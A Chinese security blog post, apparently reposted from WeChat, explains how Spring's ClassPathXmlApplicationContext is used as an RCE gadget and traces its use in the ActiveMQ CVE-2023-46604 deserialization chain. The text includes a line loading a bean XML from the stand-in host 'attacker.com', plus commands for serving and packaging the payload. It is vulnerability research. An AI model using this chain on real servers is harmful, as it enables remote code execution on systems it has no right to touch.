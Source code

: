> **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzk3NTE3MjU4Mg==&mid=2247484302&idx=1&sn=42e0113f5e72ddc92f84826671500353

#  【JAVA安全笔记】ClassPathXmlApplicationContext利用链 有参构造对象RCE打法  
原创 Shelter1234  安全研究员   2025-07-21 14:00  
  
  ClassPathXmlApplicationContext 是 Spring 框架中的一个重要类，用于加载应用程序的上下文配置。它从类路径中读取 XML 配置文件，并根据该配置文件创建和管理 Spring 的 bean。它的构造函数接收一个 String 类型的路径参数，支持持 http://、file://、ftp://、classpath: 等多种协议。  
  
new ClassPathXmlApplicationContext("http://attacker.com/poc.xml");  
  
该类在初始化过程中会加载传入的 XML 文件，并解析其中的 <bean> 定义，进而触发类加载、静态代码块执行等行为，常用于构造远程代码执行（RCE）利用链。  
  
  
简单示例  
  
假设我们有如下类  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTIy10v0xibztxHnWGiby3MC4NhB1Gf6nhKbV7d5JFPZRjW4xPibib6p7fzQ/640?wx_fmt=png&from=appmsg "")  
  
编写applicationContext.xml xml文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTQVnYospjHnqm77uib2QXmOdbkydAoUF7fyoRzolXFGYao7n98sZMMmw/640?wx_fmt=png&from=appmsg "")  
  
使用ClassPathXmlApplicationContext进行加载  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTcADsmEfp5wT7E0eakWCpribcBIiaFlPHicNs0EkicjEl9S4kC5z8Cm2NvQ/640?wx_fmt=png&from=appmsg "")  
  
输出：得到这个bean对象 调用doSomething  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTibnV34b8iaV6j5r6c8PTGo8aj4syJsKZibMGzNMPaUu0BGbKyc5YFLDyA/640?wx_fmt=png&from=appmsg "")  
  
假设applicationContext.xml 有如下的bean 我们则可以执行系统命令  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTibVhdUQnYicZhsWmu8Ijoib7kWk1TICoUOXqXwzpNQFZicHAtQl544uh8g/640?wx_fmt=png&from=appmsg "")  
  
只需创建context对象便可触发  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUT7YDicZ4tS5ugyeHkhib3phqRFSKfrZI7GkXAYghHnMUiadVict0aHb2Cyw/640?wx_fmt=png&from=appmsg "")  
  
ClassPathXmlApplicationContext 可支持的协议测试  
  
1.http协议  
  
使用python -m http.server -b 0.0.0.0 创建一个http服务，提供以下文件  
  
（注意：加载的xml格式的文件与文件后缀无关）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTFajic4hYvIksSz4WQrFmSQic3HuozY02GglqRMerrrFbxvBtzYFQpDXg/640?wx_fmt=png&from=appmsg "")  
  
ClassPathXmlApplicationContext加载，改xml格式的txt文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTRLfDTEXypfeGFUHicO8eozBUMCpPEp62wJ6udEnf1raxAibyu0cVovuw/640?wx_fmt=png&from=appmsg "")  
  
执行结果  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTaSedpTs19gO2FBqhiakP0KxARl28nzLXORzEmP9icIuYwoSPFiaXv8ibwg/640?wx_fmt=png&from=appmsg "")  
  
2.file协议  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTETmHY804oZ8SJsm4Zwf8ZgP0ddtq9q6KzPMfx50iaicQxUmlAicFr7wOQ/640?wx_fmt=png&from=appmsg "")  
  
执行结果  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTfwP0j9VUeT0ibuEgyyxsfIxErZT81HYUdTciaowWS9iagn4bJNHSwaGPw/640?wx_fmt=png&from=appmsg "")  
  
3.ftp协议  
  
本地起一个匿名服务器  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUT2tUoxD1lHHPW1eEVB1EiboQ3ufEP9MoNqo4aMsukiaqoaO47lPicCDAxA/640?wx_fmt=png&from=appmsg "")  
  
运行结果  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTZfCNLoys7ZWCm9u5HTvgLCXianDbOG4LpBWznz7avxIlgIXEicpbAXNA/640?wx_fmt=png&from=appmsg "")  
  
4.jar协议  
  
jar cvf payload.jar poc.txt 生成jar包  
  
测试结果  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTr3rvOIibpNwuibOtuPpUcbEzhdXAianbe6x0YpmjajW1AyLK4Ldia7ptrg/640?wx_fmt=png&from=appmsg "")  
  
  
实战中的应用  
  
1. CVE-2017-17485  
  
Jackson反序列化漏洞利用链  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTSBV5UzIvicIXYw1yfjXFvT0e9xygVTehxYQ78SwIrLNLpddhSPpVukA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTQYcMd7mCh4rg8oxVXk6RQm0yqa9waZoNiboUiaqhrZtPqewYIO0W5lZg/640?wx_fmt=png&from=appmsg "")  
  
（关于jsckson的序列化利用姿势后面再讲解）  
  
2. Apache ActiveMQ OpenWire 协议反序列化命令执行漏洞 CVE-2023-46604  
  
BaseDataStreamMarshaller 中的createThrowable方法，将会对参数进行构造方法调用，实例化一个都对象。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTQG73ic78YeiaIX07BZWfdn0qThcoHp26raloLRKQvK8qsASCG4q8icAyw/640?wx_fmt=png&from=appmsg "")  
  
若参数可控，可以考虑ClassPathXmlApplicationContext的打法利用链  
  
右键find useages - createThrowable  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTxx7Nvibjuv7V0Le3M4icDOF2h9EzQYmdZKsgBkZeUf5ENkQvuM3WnOSQ/640?wx_fmt=png&from=appmsg "")  
  
跟进其中一个looseUnmarsalThrowable进行分析  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTRCG1MVjMejOKChQZyzmicdhcdWTbTR72NFKA1Bumj94jEGSOIQDuJxQ/640?wx_fmt=png&from=appmsg "")  
  
clazz 与 message 均来自dataIn，貌似是一个输入流  
  
继续分析looseUnmarsalThrowable的调用  
  
右键find useages - looseUnmarsalThrowable  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTxF9J9gwicEic1wIj29RQxvFAjoPhicOzRF3IOnPF0aw0dhRoFxgjGVvZw/640?wx_fmt=png&from=appmsg "")  
  
跟进其中一个ExceptionResponseMarshaller进行分析  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTPpSmJuqVHdywG8k3FYHX7MbQia2lv7yibAibsX2yx12elJnm4463mpIHQ/640?wx_fmt=png&from=appmsg "")  
  
继续向上分析looseUnmarshal 的调用  
  
最终找到一个doUnmarshal的方法  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTzYyiaZTYB36N1BSfIhQaPoVoDOaqzib5SPnibQmibPT9WohFicFwiby5iaj6Q/640?wx_fmt=png&from=appmsg "")  
  
这里我们需要做如下考虑  
  
1，我们需要dsm等于ExceptionResponseMarshaller ，这样就会调用ExceptionResponseMarshaller 的looseUnmarshal 方法。如此要dataType为31  
  
2，this.tightEncodingEnabled 成立  
  
继续分析doUnmarshal的调用  
  
右键find useages - doUnmarshal  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTFOZ8ONhShyGhgZEoMRtYwgykV7qn9hzpPNHEKbbxQ8X1X2200ZrONw/640?wx_fmt=png&from=appmsg "")  
  
来到unmarshal 方法  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTibwCFibf7PPvVDj8EoAbElhYdQwbsUqM6OeOuH6icRunhDwq7tv8n49Fw/640?wx_fmt=png&from=appmsg "")  
  
继续向上  
  
右键find useages - unmarshal  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTibPomFjdtq8pZxicicHJ7IlXe2GOUsoBYZjfqJRSm418H0kEmWMibD2TXQ/640?wx_fmt=png&from=appmsg "")  
  
来到readCommand()  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTxic4ibicsshibz8a3sozb5LlGpBMUzhibvvD6KmVngwgxSylZXOkRe0WtFw/640?wx_fmt=png&from=appmsg "")  
  
readCommand()<—doRun()<—run()  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTEiaib7OX228spUnb3EnL4h7ZZBeeY0xF62ia05JibRwp1HhC7a5ZlbGctA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTqcpRdApNjmS1HVdWBTLDyJJsMykTIyWp1kYtsvOJbRhItTeSZorKAw/640?wx_fmt=png&from=appmsg "")  
  
至此调用链分析就结束了  
  
要想成功加载恶意类，控制dataIn中的数据即可，  
  
如何制造我们想要的序列化数据呢？  
  
既然有readCommand，那么就会有writeCommand  
  
参考下同类下的oneway方法  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTB3S1KunOiaBf4TDJY7tOqpJ0131Ax7fh9YZyKMTgIEiaMDLmWiakEH8Bw/640?wx_fmt=png&from=appmsg "")  
  
有兴趣的话可以分析producer.send(message);是如何到达oneway方法的  
  
（在 Apache ActiveMQ 中，当调用 producer.send(message) 发送消息时，消息的发送过程经过了几个步骤，最终会触发 oneway 方法。）  
  
我们可以直接获取oneway方法，并且传入exceptionResponse  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTGS2xibL459yhtymfZrnS4HSW8CA66F0zB8BQDEXZqiaicuOeTh0PGoBAw/640?wx_fmt=png&from=appmsg "")  
  
构造一个ClassPathXmlApplicationContext 它需要与ExceptionResponse 产生关联，于是便可以这样写  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTlLnJ6yC23nakUtPciarFbWYSJOT1fsrNUpnQPQJpO7rVcViaGIO74RUg/640?wx_fmt=png&from=appmsg "")  
  
之后用ExceptionResponse封装这个类  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTrOwyDGRFQn0jE6667icu0lN4ib3fqD6v3b0nNd6KBnLoHsric9eEL2ssg/640?wx_fmt=png&from=appmsg "")  
  
有如下生成恶意的流数据，让服务端读取数据时触发异常，创建ClassPathXmlApplicationContext 对象执行代码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTq7icdWdY20FXV6PCQlMRD0AOECtPYGibHXN0pdAWLxyyLuE467adEicIw/640?wx_fmt=png&from=appmsg "")  
  
或者使用其他形式生成流数据  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6mJWHPYFey2EhdRRD3y8U6IAaibmUvHUTMZ4iaGbAY94eiczKgRFdISD2ADfnJ88LhZlQfd9LSwYD7jvVxPia83wfA/640?wx_fmt=png&from=appmsg "")  
  
参考  
  
https://blog.csdn.net/shelter1234567/article/details/137041683?spm=1011.2415.3001.5331 (自家博客)  
  
https://github.com/vulhub/vulhub/blob/master/activemq/CVE-2023-46604/README.zh-cn.md  
  
  
  

